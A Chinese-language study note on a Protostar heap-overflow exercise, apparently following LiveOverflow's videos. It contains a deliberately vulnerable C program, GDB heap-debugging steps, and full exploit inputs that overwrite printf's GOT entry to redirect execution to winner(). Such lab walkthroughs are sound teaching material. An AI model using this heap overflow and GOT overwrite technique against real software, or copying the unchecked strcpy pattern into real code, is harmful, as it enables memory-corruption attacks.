

# 0x15 The Heap How to exploit a Heap Overflow
> heap 堆溢出 +  GOT 覆盖，一次详细的堆分配调试过程及漏洞利用过程，顺序与视频相反
- **漏洞代码**
  ```c
  1 #include <stdlib.h>
  2 #include <unistd.h>
  3 #include <string.h>
  4 #include <stdio.h>
  5 #include <sys/types.h>
  7
  8 struct internet {
  9    int priority;
  10    char *name;
  11 };
  12
  13 void winner()
  14 {
  15 printf("and we have a winner @ %d\n", time(NULL));
  16 }
  17
  18 int main(int argc, char **argv)
  19 {
  20 struct internet *i1, *i2, *i3;
  21
  22
  23 i1 = malloc(sizeof(struct internet));
  24 i1->priority = 1;
  25 i1->name = malloc(8);
  26
  27 i2 = malloc(sizeof(struct internet));
  28 i2->priority = 2;
  29 i2->name = malloc(8);
  30
  31 strcpy(i1->name, argv[1]);
  32 strcpy(i2->name, argv[2]);
  33 
  34 printf("and that's a wrap folks!\n");
  35 }
  ```
- **GDB 调试查看堆分配过程中堆变化**
  - 在每个 `malloc` 函数调用处下断点（23、25、27、29）
  - 运行程序并输入 poc ```run "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"`" "`/bin/echo -ne "\x94\x84\x04\x08"`"```
    
  - 执行第一个 `malloc` 函数后，查看函数返回地址（即分配的 `chunk` 地址）
    - `info registers` 查看 `eax` 值，x86/64 下函数返回值存储于 `eax` 中
    - `info proc mappings` 查看进程中可访问的内存地址空间范围
    - `x/64wx 0x804a000` 查看进程堆区内容如下
      
  - 为了在每次断点中断时查看堆区变化，设置 gdb-hook，可以看到，在第2个 malloc 断点处中断时，gdb 打印出堆区内容
    
  - 第2个 malloc 断点中断时，已经执行了`i1->priority = 1` 的赋值，堆区内容如下
     
  - 第3个 malloc 断点中断时，已经执行了 `i1->name = malloc(8);` 的赋值，堆区内容如下
    
  - 所有 malloc 执行完后，堆区内容如下
    
  - 因此，当 malloc 分配堆时，会逐个分配chunk（必须给小人安排一个出镜机会 :deciduous_tree: :sun_with_face:
    
- **漏洞利用过程**
  - 初步尝试触发漏洞，执行第一个 `strcpy()`函数后，验证存在栈溢出
    
    
    先存下作者的图:seedling:，第二个 `strcpy()` 想将 `00001111222233334444...` 存入到地址 `0x46464646` 中
    
    因此，我们需要将 `FFFF` 处填写成 `printf()` 的 `GOT` 地址，再将 `0000` 填写为 `winner` 的函数地址，这样在后续调用 `printf()` 函数时，实际调用的是 `winner()`
  - 在单步调试一波
    - 设置 gdb-hook，设置断点
      ```bash
      define hook-stop
      x/64wx 0x804a000
      info registers
      end
      ```
      在两个 `strcpy()` 及 `printf()` 函数处下断点
      
    - 首先设置 `FFFF` 为 `printf()` 的 `GOT` 地址
      ```bash
       run "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"`" 00001111222233334444
      ```
    - 执行完第一个 `strcpy()` 后堆区变化，原本该指向 `0x804a038` 的 `i2->name` 地址变为指向 `printf GOT` 地址
      
    - 执行完第二个 `strcpy()` 后成功覆盖 `printf()` 地址为 `0000`
      
    - 现在，设置 `0000` 为 `winner()` 地址，成功利用 :ear_of_rice: 
      ```bash
      "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"`" "`/bin/echo -ne "\x94\x84\x04\x08"`"
      ```
      

## 参考链接
- [exploit-protostar](https://exploit.education/protostar/) 
- [liveoverflow_binary-hacking](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w)